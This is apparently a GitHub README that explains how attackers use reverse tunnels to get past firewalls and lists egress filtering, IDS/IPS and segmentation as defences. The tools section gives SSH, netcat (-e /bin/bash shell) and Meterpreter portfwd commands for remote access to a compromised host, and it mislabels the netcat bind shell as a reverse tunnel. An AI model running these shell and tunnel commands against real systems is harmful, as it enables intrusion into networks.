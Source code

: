 # :unlock: Unveiling the Technique: How Hackers Can Bypass Firewalls with Reverse Tunnels

## :page_facing_up: Introduction
In today's interconnected digital landscape, cybersecurity has become an increasingly critical concern. Firewalls stand as the first line of defense against unauthorized access and data breaches. However, hackers are continually innovating and exploring new methods to infiltrate networks. One such technique gaining attention is the use of reverse tunnels to bypass firewalls. In this article, we will shed light on how hackers leverage reverse tunnels and discuss strategies to enhance firewall security.

### :round_pushpin: Understanding Reverse Tunnels
To comprehend the concept of a reverse tunnel, let's begin with a brief overview of regular tunnels. Traditionally, tunnels allow secure communication between two endpoints over an untrusted network, such as the internet. However, reverse tunnels operate in the opposite direction, establishing a connection from an internal network to an external network.

## :skull: The Hacker's Strategy
When a hacker desires to bypass a firewall, they can employ a reverse tunnel as a covert conduit to reach their target. Here's how the process generally unfolds:

1. :shield: Firewall Evasion: Firewalls are designed to filter incoming and outgoing traffic based on predefined rules. By initiating a reverse tunnel, a hacker can encapsulate their malicious traffic within legitimate outbound connections, making it challenging for firewalls to detect or block.

2. :arrows_clockwise: Outbound Connection: The hacker sets up a client-side software or script on a compromised internal system within the target network. This client initiates an outbound connection to a remote server, typically controlled by the attacker.

3. :electric_plug: Reverse Tunnel Establishment: Through the outbound connection, the client establishes a secure tunnel with the remote server. This tunnel allows the attacker to receive incoming traffic from the compromised system, effectively bypassing the firewall's restrictions.

4. :floppy_disk: Data Exfiltration or Command Execution: With the reverse tunnel in place, the attacker gains an entry point into the internal network. They can remotely execute commands, exfiltrate sensitive data, or pivot within the network to explore further targets.

## :shield: Mitigating the Risk
While the utilization of reverse tunnels presents a significant challenge, organizations can implement various measures to enhance firewall security and reduce the risk of exploitation. Consider the following strategies:

1. :key: Strict Egress Filtering: Employ egress filtering at the firewall level to monitor and control outbound traffic. By restricting unnecessary outbound connections, organizations can minimize the opportunity for hackers to establish reverse tunnels.

2. :cop: Intrusion Detection/Prevention Systems (IDS/IPS): Implementing an IDS/IPS solution enhances network security by actively monitoring network traffic for suspicious patterns or anomalies. This helps in detecting and blocking attempts to establish reverse tunnels.

3. :building_construction: Segmentation and Access Control: Divide the network into smaller segments with restricted access controls. By limiting lateral movement within the network, even if a hacker successfully establishes a reverse tunnel, they will face significant barriers to compromising other systems.

4. :wrench: Regular Updates and Patching: Keep firewall systems, operating systems, and applications up to date with the latest security patches. This reduces the likelihood of known vulnerabilities being exploited to bypass firewalls.

5. :raising_hand: User Education and Awareness: Educate employees about the risks of social engineering and phishing attacks, as these techniques are commonly used to gain initial access to internal systems. Training employees to identify and report suspicious activities can significantly strengthen network security.

## Reverse Tunneling tools

1. **SSH (Secure Shell):**
   SSH is commonly used to securely access remote servers. It can be used to establish a reverse tunnel by forwarding ports. Here's an example SSH command to create a reverse tunnel from the compromised machine (internal IP: 192.168.1.100) to the external control point (external IP: 203.0.113.10) on port 8080:

   ``` bash
   ssh -R 8080:localhost:8080 user@203.0.113.10
   ```

   Once this reverse SSH connection is established, any traffic directed to port 8080 on the external control point will be redirected to the compromised machine.

2. **Netcat:**
   Netcat is a versatile networking tool that enables data transfer over TCP or UDP connections. It can be used to create a reverse tunnel similar to SSH. Here's an example Netcat command to establish a reverse tunnel from the compromised machine to the external control point on port 8080:

   On the compromised machine:
   ``` bash
   nc -l -p 8080 -e /bin/bash
   ```

   On the external control point:
   ``` bash
   nc 192.168.1.100 8080
   ```

   This command establishes a connection between the compromised machine and the external control point, allowing remote access through an interactive shell session.

3. **Meterpreter (Metasploit Framework):**
   Metasploit is a well-known penetration testing framework that includes the Meterpreter tool. Meterpreter provides a wide range of functions for remote access and control of compromised systems. It can be used to create a reverse tunnel using the `portfwd` command. Here's an example Meterpreter command to create a reverse tunnel from the compromised machine to the external control point on port 8080:

   ``` bash
   meterpreter > portfwd add -l 8080 -p 8080 -r <external control point IP>
   ```
   Once this reverse tunnel is established, the compromised system can be accessed through the external control point on port 8080.
   

## ⚠️ Disclaimer

Attention Users! Your commitment to responsible and ethical use is essential. Please read and abide by the following cybersecurity disclaimer:

1. **Educational Purpose**: This repo is intended for educational and research purposes only. It serves as a platform to explore cybersecurity concepts, techniques, and vulnerabilities in a controlled and legal environment. It must not be used for any malicious or unauthorized activities.

2. **Lawful Usage**: Ensure that your usage of the repo complies with all applicable laws, regulations, and ethical guidelines in your jurisdiction. Any actions that infringe upon the privacy, security, or rights of individuals, organizations, or systems are strictly prohibited.

3. **Informed Consent**: Obtain proper authorization and informed consent before conducting any security assessments, vulnerability testing, or penetration testing. Unauthorized access or attempts to exploit vulnerabilities without explicit permission are unlawful and unethical.

4. **Respect for Privacy**: Respect the privacy and confidentiality of others. Do not share or disclose any sensitive information obtained through the repo without proper authorization. Treat personal data with the utmost care and comply with relevant privacy laws and regulations.

5. **Secure Environment**: Use the hacker repository in a secure environment and on systems that you have explicit permission to access. Take appropriate measures to protect your own systems and networks from any unintended consequences or exposure to vulnerabilities.

6. **Accountability**: You are solely responsible for your actions and their consequences when using the repo. The maintainers, contributors, and owners of the repo are not liable for any damages, losses, or legal repercussions resulting from the misuse or unauthorized use of the repo.

7. **Ethical Conduct**: Promote ethical conduct and professionalism in your use of the hacker repository. Do not cause harm, disrupt services, or compromise the integrity of systems or networks. Act responsibly, transparently, and with respect for others' security and privacy.

Remember, the repo is a tool to enhance your understanding of cybersecurity. It is your responsibility to ensure that you use it responsibly and ethically, contributing positively to the field of cybersecurity.

Stay curious, learn responsibly, and help build a safer digital world! 🛡️🔒

